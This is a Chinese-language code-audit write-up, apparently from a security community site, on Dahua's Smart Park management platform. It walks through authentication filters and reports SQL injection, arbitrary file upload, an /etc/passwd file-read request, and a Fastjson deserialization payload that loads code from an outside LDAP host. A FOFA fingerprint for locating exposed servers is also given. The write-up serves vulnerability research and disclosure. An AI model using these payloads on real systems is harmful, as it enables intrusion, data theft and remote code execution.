# 大华智慧园区综合管理平台审计-先知社区

> **来源**: https://xz.aliyun.com/news/18976  
> **文章ID**: 18976

---

# 介绍

大华智慧园区综合管理平台是由大华技术股份有限公司(Dahua Technology)开发的一款综合管理解决方案。该平台旨在帮助园区管理者提高管理效率、提升安全水平、优化资源利用,并实现智能化的园区运营。大华智慧园区综合管理平台采用模块化设计和开放式架构,可根据不同园区的需求进行定制和扩展。同时,它还支持云端部署和移动端访问,方便管理者随时随地监控园区运营情况

fofa指纹：`"/WPMS/asset/lib/gridster/"`



# 代码审计

## 项目分析



项目架构比较乱，可以当成多个项目的集成，多个目录下都可以算作一个独立的项目是独立的web.xml配置，其中有采用struts2二开的，也有传统的spring MVC架构，后端controller，前端freemarker，比较影响的点对于每个目录下的接口都要先分析其中的鉴权代码，并且根据架构不太接口的触发路由也有差异

## 鉴权分析

这里挑三个模块的鉴权分析下，其它的也大差不差、

### face

鉴权逻辑封装在了jar包，在SpringMVCConfig.java



从配置文件中可以看到注册了RequestInterceptor这个拦截器，跟进代码实现



75-77行通过请求头获取登录信息，78行通过request.getRequestURI()获取请求url，80行开始进行url白名单判断，for循环遍历excludeUrls数组，接着调用PatternMatchUtils.simpleMatch判断获取到的url和excludeUrls数组元素，返回true则放行



excludeUrls在初始化的时候通过commonApi.getExcludeUrls()方法获取



通过api.properties获取



跟进PatternMatchUtils.simpleMatch方法逻辑

8-10行判断传入参数是否为null，11行获取pattern\*出现的位置判断匹配模式，如果未出现，调用equals进行完全匹配，如果出现在第一位，pattern长度为1直接返回，19行判断第二个\*出现的位置，没有的话调用endsWith匹配str是否为pattern开头返回，如果非单个\*，提取第一个\*和下一个\*之间的部分part，进行递归匹配，最后36行是\*非开头的逻辑，3个条件都满足返回true

1. `str.length() >= firstIndex`

1. 字符串长度必须 ≥ 第一个星号的位置

2. `pattern.substring(0, firstIndex).equals(str.substring(0, firstIndex))`

1. 字符串开头必须与模式开头完全一致，直到第一个星号

3. `PatternMatchUtils.simpleMatch(pattern.substring(firstIndex), str.substring(firstIndex))`

1. 对星号及之后的部分进行递归匹配

那么这里实际上只是比`contains`复杂点的模糊匹配，可以寻找是否存在`/白名单*`的写法，构造`/白名单/../admin/info`绕过

我们返回RequestInterceptor



分析完白名单放行，看下身份凭据能否伪造，85行构造验证接口`this.wpmsUrl + "/spi/v1/ses/keep/" + token`，wpmsUrl在配置文件中

那么完整路由为http://${serverIp}/WPMS/spi/v1/ses/keep/token，85行调用RestTemplateUtil.validToken进行处理，后续就是判断返回的CommonResult实例是否为null或者!result.getResult().isSuccess()，满足一个就无发绕过拦截器，跟进RestTemplateUtil.validToken



就是一个发送get请求接收回显数据的方法，查看请求接口的对应方法



这里主要通过this.sessionCache.get传入我们的token获取HttpSession实例，带入后续判断，那么这个HttpSession大概率是在登录时put的，查看登录接口逻辑



发现能对应上，那么这里就是通过我们的token查询当前存储在sessionCache中的用户凭据，这里要伪造得确认sessionCache中存在伪造用户的凭据，关注下token生成，result是通过this.apiService.login获取



可以看到settoken的值是re.getData().get("subSystemToken")，re是通过restTemplate.postForEntity(this.getDssUrl(), (Object)dssSwap, DssSwapResult.class, new Object[0])获取

请求本地的dss服务获取，这里请求接口是通过配置文件的dss.subsystem.intf获取，但是这里我没找到路径配置，分析到这里就断了，那么从目前分析来说的话是可以通过构造`/白名单/../admin/info`的url来绕过白名单的，并且我看下项目的spring boot也是低版本，但是实测下来确实过了白名单，但是请求不到后端的controller，也没发现其它而外配置，那么只能要前台只能从白名单接口入手了

### publishing

查看web.xml



发现filter，并且通过命名和全局拦截推测为鉴权filter，跟进实现



54-59获取用户信息，其中关键的61行if判断stoken是否有值并且调用ContextUtil.getDssLoginToken处理获取到的session

这里没登陆肯定没有，那么这个if条件中的dofilter就触发不到，接着看else的逻辑



75-87行检查请求参数中的stoken、userId和userName是否都非空，创建一个新的UserToken对象来存储用户认证信息，将构建好的UserToken对象存储到HTTP会话中

88行获取的我们请求的url，90行调用PatternMatchUtils.simpleMatch方法进行模糊匹配，如果请求url包含/publishing/publishing/就放行，前面测试的../不行这个放行规则也只能考虑/publishing下的接口了，但是这个开头的接口很多，接着往下分析

93行通过ContextUtil.getDssLoginToken传入的session获取用户实例，这里实际上是可以和前面搭配起来的，通过前面创建新的UserToken并写入session，这里再获取，也就是说这里的UserToken可以不为null，那么就进入else，101-103去除url上下文，然后判断请求的url是否存在.，存在的话提取.后面的内容判断是否匹配fileTypeList中的元素



fileTypeList在初始化通过配置文件获取



那么这里可以通过构造`publishing/admin/info;.js`触发dofilter，但是在实测过程中并没有触发dofilter，貌似代码逻辑是接着向下执行，访问正常的js文件可以访问，那就说明是/info;.js这种写法的问题，可能是在哪里配置了不解析这种



后面的代码是具体校验token有效性了

### WPMS



跟进实现



代码逻辑大差不差，放行点分别是49，56，62行，第一处dofilter是静态资源放行，第二处是url白名单放行，第三处判断session中是否存在\_session\_custom\_token\_或\_session\_custom\_token\_client\_放行

两种绕过写法失效的情况下也就没有了绕过可能

## SQL注入

对于大多数系统SQL注入审计中可以分为mybatis和非mybatis，因为常见的SQL查询api中只有mybatis的拼接写法是`${}`，而其它几种都是采用字符拼接`+`，`append`等



发现mybatis依赖，搜索关键词`${`

### 第一处

publishing\_material\_mapper.xml中的getMaterialPageByCombinedCondition方法



拼接了sortBy和sortOrder，定位方法调用







最终定位到controller

MaterialController.java中的getMaterialPageBySingleCondition方法



176行调用了materialService.getMaterialPageByCombinedCondition，传入conditions，conditions在172-173分别setsortBy和sortOrder，来源是conditionVO对象，conditionVO是通过路由注解装配



类型是string，存在注入

### 第二处

publishing\_player\_mapper.xml中的getPlayerPageBySingleCondition方法



拼接了sortBy和sortOrder，定位方法调用







最终定位到controller

PlayerController.java中的getPlayerPageBySingleCondition方法



253行调用playerService.getPlayerPageBySingleCondition传入conditions，conditions在233-234分别setsortBy和sortOrder，来源是ConditionVO对象，ConditionVO通过路由注解装配



sting类型，存在注入

### 第三处

部分模块采用的是JDBC，通过`append` || `+`

定位到AttachmentDaoImpl.java中的getAttachmentListBySearchBean方法



83行拼接了bean的RecId，定位方法调用

AttachmentManagerImpl.java中的clearTmpFileJson



344行set了RecId，来源方法调用第一个参数recId，接着定位方法调用

AttachmentAction.java中的clearTempFile



对应的路由配置



对应的poc

```
GET /attachment_clearTempFile.action?bean.recId=注入poc&bean.tabName=user_table
```

## 文件上传

对应关键词：upload || Multipart

### 第一处

MaterialController.java中的addVideoFile方法



90行对我们的request请求进行Multipart类型转换，92行从请求中提取Filedata字段的文件，93-96判断是获取到对应文件，98行调用buildMaterialFile方法处理文件



new个MaterialFile对象，设置原始文件名，设置文件内容字节数组，计算并设置文件大小，然后返回

99行调用materialService.addVideoFile处理返回的MaterialFile，跟进实现



63行获取原始文件名，65获取directory等于VIDEO，然后调用fileManageService.sendFile方法，跟进



简单判断了下值是否未null，最后调用FileUtil.writeBytes处理文件





第一个参数的文件内容，第二个是拼接的完整文件路径

打开targetFile文件，然后把sourceBytes写入文件中，整个流程分析下来文件后缀，内容可控，存在任意文件上传

### 第二处

MaterialController中的addImageFile



65行对我们的request请求进行Multipart类型转换，66行从请求中提取file字段的文件，67-70判断是获取到对应文件，72行调用buildMaterialFile方法处理文件



new个MaterialFile对象，设置原始文件名，设置文件内容字节数组，计算并设置文件大小，然后返回

73行调用materialService.addImageFile处理返回的MaterialFile，跟进实现



42行获取原始文件名，65获取directory等于IMAGE，然后调用fileManageService.sendFile方法，跟进



简单判断了下值是否未null，最后调用FileUtil.writeBytes处理文件



第一个参数的文件内容，第二个是拼接的完整文件路径

打开targetFile文件，然后把sourceBytes写入文件中，整个流程分析下来文件后缀，内容可控，存在任意文件上传

## 任意文件读取

AttachmentAction.java中的downloadByUrlAtt方法



207-209设置请求编码为UTF-8，213判断如果type为1且能获取到WebService配置，则构建完整的文件路径

217行从filePath中提取文件名。首先截取最后一个/之后的部分作为初始文件名name，如果该文件名中包含？，则进一步截取到?之前的部分

224-242将filePath从ISO-8859-1编码转换为UTF-8，使用URL打开文件输入流fis，获取HTTP响应输出流fos

设置HTTP响应头，指定下载文件名，实现文件下载

filePath是 通过Struts2参数绑定到 AttachmentAction 的字段并调用其 setter



寻找对应路由配置



访问url为

```
/portal/itc/attachment_downloadByUrlAtt.action?filePath=file:/etc/passwd
```

## Fastjson反序列化

全局搜索`parseObject`



定位到SwingCardRecordController.java中的deleteFtp方法



390行调用`JSON.parseObject(`进行fastjson反序列化，参数是路由绑定的ftpUrl


项目对应的版本是1.2.44符合通杀版本

对应poc

```
POST /CardSolution/card/accessControl/swingCardRecord/deleteFtp HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Connection: close
Content-Length: 224
Content-Type: application/json

{"ftpUrl":{"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://clmmm09r8kkedikc4900otiwibdhw1i7t.oast.fun","autoCommit":true}}}
```

​
